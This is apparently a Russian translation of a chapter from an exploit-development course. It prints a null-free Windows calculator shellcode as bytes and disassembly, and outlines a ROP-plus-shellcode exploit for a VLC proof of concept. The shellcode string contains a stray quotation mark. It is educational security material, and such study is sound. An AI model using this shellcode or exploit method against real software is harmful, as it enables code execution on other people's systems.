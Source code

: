 # Часть 40

**УНИВЕРСАЛЬНЫЙ** **ШЕЛЛКОД**

Существует тысячи типов шеллкодов. Каждый из них разработан в соответствии с целью, которую мы должны эксплуатировать.

Существую шеллкоды, которые используются для доказательства того, что вы можете запустить код после эксплуатации. Обычно они запускают калькулятор и ничего больше.

Очевидно, что существуют более сложные шеллкоды, которые открывают удаленные консоли, стараются остаться в системе не смотря на то, что эксплуатируемая программа перестает работать или закрывается, инжектируют себя в некоторый другой процесс системы, сохраняет себя как файл и т.д.

Существует библиотека шеллкодов, которую мы можем найти в **GOOGLE** или запрограммировать, если нам нужно что-то особенное.

С этого момента мы будем использовать **УНИВЕРСАЛЬНЫЙ** **ШЕЛЛКОД**, который работает для всех версией **WINDOWS** и запускает калькулятор. При этом мы продемонстрируем выполнение кода.

Я нашел его здесь:

[https://packetstormsecurity.com/fil...-Null-Free-CreateProcessA-Calc-Shellcode.html](https://packetstormsecurity.com/files/102847/All-Windows-Null-Free-CreateProcessA-Calc-Shellcode.html)

shellcode=
**"\x31\xdb\x64\x8b\x7b\x30\x8b\x7f\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b\x77\x20\x8b\x3f\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c\x8b"\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x89\xdd\x8b\x34\xaf\x01\xc6\x45\x81\x3e\x43\x72\x65\x61\x75\xf2\x81\x7e\x08\x6f\x63\x65\x73\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9\xb1\xff\x53\xe2\xfd\x68\x63\x61\x6c\x63\x89\xe2\x52\x52\x53\x53\x53\x53\x53\x53\x52\x53\xff\xd7"**

Я могу использовать его в скрипте **PYTHON** точно так же, если у меня есть место для его добавления.

Сами байты эксплоита такие:

`31 db 64 8b 7b 30 8b 7f 0c 8b 7f 1c 8b 47 08 8b 77 20 8b 3f 80 7e 0c 33 75 f2 89 c7 03 78 3c 8b" 57 78 01 c2 8b 7a 20 01 c7 89 dd 8b 34 af 01 c6 45 81 3e 43 72 65 61 75 f2 81 7e 08 6f 63 65 73 75 e9 8b 7a 24 01 c7 66 8b 2c 6f 8b 7a 1c 01 c7 8b 7c af fc 01 c7 89 d9 b1 ff 53 e2 fd 68 63 61 6c 63 89 e2 52 52 53 53 53 53 53 53 52 53 ff d7`

```assembly
MOV EDI,DWORD PTR FS:[EBX+30]
XOR EBX,EBX
MOV EDI,DWORD PTR DS:[EDI+C]
MOV EDI,DWORD PTR DS:[EDI+1C]
MOV EAX,DWORD PTR DS:[EDI+8]
MOV ESI,DWORD PTR DS:[EDI+20]
MOV EDI,DWORD PTR DS:[EDI]
CMP BYTE PTR DS:[ESI+C],33
JNZ SHORT CANARY_c.00A7138A
MOV EDI,EAX
ADD EDI,DWORD PTR DS:[EAX+3C]
MOV EDX,DWORD PTR DS:[EDI+78]
ADD EDX,EAX
MOV EDI,DWORD PTR DS:[EDX+20]
ADD EDI,EAX
MOV EBP,EBX
MOV ESI,DWORD PTR DS:[EDI+EBP*4]
ADD ESI,EAX
INC EBP
CMP DWORD PTR DS:[ESI],61657243
JNZ SHORT CANARY_c.00A713A9
CMP DWORD PTR DS:[ESI+8],7365636F
JNZ SHORT CANARY_c.00A713A9
MOV EDI,DWORD PTR DS:[EDX+24]
ADD EDI,EAX
MOV BP,WORD PTR DS:[EDI+EBP*2]
MOV EDI,DWORD PTR DS:[EDX+1C]
ADD EDI,EAX
MOV EDI,DWORD PTR DS:[EDI+EBP*4-4]
ADD EDI,EAX
MOV ECX,EBX
MOV CL,0FF
PUSH EBX
LOOPD SHORT CANARY_c.00A713D8
PUSH 636C6163
MOV EDX,ESP
PUSH EDX
PUSH EDX
PUSH EBX
PUSH EBX
PUSH EBX
PUSH EBX
PUSH EBX
PUSH EBX
PUSH EDX
PUSH EBX
CALL EDI
```

Эти байты запускают калькулятор везде где мы их вставляем. Хорошо, что у этих байтов нет нулей. Хотя могут быть программы, который отвергают какой-то конкретный символ отличный от нуля. Это будет зависеть от случая.

Мы уже знаем, как сделать **ROP** и у нас уже есть универсальный шеллкод. Основной смысл состоит в том, чтобы практиковаться с программой **VLC**, для которой мы уже сделали **POC**. Я был бы очень рад, если бы кто-то отправил мне полный файл и туториал, объясняющий то, что Вы сделали. Я бы добавил бы первого человека, который отправил бы мне хорошо объясняющий туториал в качестве приложения в одной из глав.

**ROP** может быть сделан вручную или с помощью **MONA**. Для нас нет никаких проблем. Вы должны найти модуль **DLL** без защиты **ASLR** и если таких больше чем один, **MONA** может использовать больше одной **DLL** в качестве аргумента, для объединения **ROP** объединяющей обе **DLL**.

Что касается же скрипта **PYTHON**, то я дам вам его схему. Как только вы создадите **ROP**, откройте файл **POC.TY+**

![](.gitbook/assets/40/01.png)

И ищите числа **41424344**, которые перезаписывают **АДРЕС** **ВОЗВРАТА**.

![](.gitbook/assets/40/02.png)

И здесь, в зависимости от размера **ROP** + **ШЕЛЛКОДА,** скажем, что в качестве примера, **ROP** и **ШЕЛЛКОД** имеет длину **150** байтов. Я заменяю область по чуть-чуть начиная со значения **41424344**включительно. Предположим что это **160** байтов.

Я помечаю вниз, пока не получу отмеченную область требуемой длины.

![](.gitbook/assets/40/03.png)

Я заполняю выбранную область с помощью байта **90**.

![](.gitbook/assets/40/04.png)

Хорошо, проверьте размер области, где находятся байты **90**, которая больше чем размер **ROP** + **ШЕЛЛКОД**. Я записываю полученный размер. В моём случае он равен **160** байт.

![](.gitbook/assets/40/05.png)

Теперь у нас есть схема работы скрипта. Скрипт ещё не протестирован. Скрипт не работает. Мы не определили **ROP** или **ШЕЛЛКОД**. Вы можете использовать **УНИВЕРСАЛЬНЫЙ** **ШЕЛЛКОД**, который мы только что видели, если у вас нет проблем с каким-либо символом. Если это не так, вы должны найти другой шеллкод.

Основная идея состоит в том, что скрипт открывает файл заполненный байтами **90**, заменяет их полезной нагрузкой того же размера, которая содержит начало **ROP,** **ШЕЛЛКОД** и дополнительные данные или заполнение. Затем скрипт сохраняет файл, чтобы проверить его работоспособность. Если файл заработает, то это будет считаться эксплоитом. А если нет заработает, нам нужно трассировать, чтобы увидеть почему так получилось.

Я был бы очень рад, если бы кто-то написал туториал и отправил мне рабочий эксплоит.Я бы увидел, что я зря не тратил время на написание туториалов.

Первый человек, который отправит мне туториал, будет добавлен в наш курс как победитель. Если людей будет больше одного, я загружу решению их в папку **SOLUCIONES** нашего курса, которую я создам для этого на своев Веб-Сервере, если это потребуется.

До следующей части **41**. Практикуйте и находите решение.

* * *
Автор текста: Рикардо Нарваха** - **Ricardo** **Narvaja** \(**@ricnar456**\)
Перевод на английский: **IvinsonCLS \(@IvinsonCLS\)**
Перевод на русский с испанского+английского: **Яша\_Добрый\_Хакер\(Ростовский фанат Нарвахи\).**
Перевод специально для форума системного и низкоуровневого программирования — **WASM.IN
11.04.2018
Версия 1.0**
